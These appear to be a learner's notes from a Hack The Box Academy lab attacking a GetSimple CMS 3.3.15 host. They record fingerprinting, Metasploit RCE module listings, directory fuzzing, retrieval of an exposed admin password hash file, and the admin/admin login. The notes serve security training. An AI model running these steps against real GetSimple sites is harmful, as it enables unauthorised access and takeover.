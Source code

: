 Port 80 appears to be running

CMS - GetSimple CMS 

version 3.3.15
http://10.129.6.57/data/cache/2a4c6447379fba09620ba05582eb61af.txt

Logs invalid logins!!
http://10.129.201.192/data/other/logs/failedlogins.log
s
sudo sh -c 'echo "10.129.201.192 gettingstarted.htb" >> /etc/hosts'

![/2. Recon/Images/Pasted image 20241007141415](https://github.com/PaigeHendrick/HTB-Academy-m77s859/blob/main/20241007-M77S859-Notes/2.%20Recon/Images/Pasted%20image%2020241007141415.png)


![[Pasted image 20241007141415.png]]

```
whatweb http://10.129.201.192
```

```
┌──(paige㉿PH-LT02)-[/home/paige]
└─PS> whatweb http://10.129.201.192                                                                                
http://10.129.201.192 [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.201.192], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]    
```

![[Screenshot_2024-10-07_11_56_34.png]]

## Metasploit

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![[Pasted image 20241007144838.png]]

Which allows us to grab the first capture flag
![[Pasted image 20241007145121.png]]
## Fuzzing

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.129.201.192/FUZZ -t 100 -ic -c 
```
Output

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.201.192/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

data                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 20ms]
admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 18ms]
plugins                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
theme                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 19ms]
backups                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 19ms]
:: Progress: [220546/220546] :: Job [1/1] :: 4065 req/sec :: Duration: [0:00:47] :: Errors: 0 ::

### Passwords

Tried the following credentials below to gain access to admin after determining the hash.

```
┌──(paige㉿PH-LT02)-[~]
└─$ curl -s  http://10.129.201.192/data/users/admin.xml.reset | xmllint --format - 
<?xml version="1.0" encoding="UTF-8"?>
<item>
  <USR>admin</USR>
  <NAME/>
  <PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
  <EMAIL>admin@gettingstarted.com</EMAIL>
  <HTMLEDITOR>1</HTMLEDITOR>
  <TIMEZONE/>
  <LANG>en_US</LANG>
</item>```
```

http://gettingstarted.htb/admin

| username                 | password                                 |
| ------------------------ | ---------------------------------------- |
| admin                    | admin                                    |


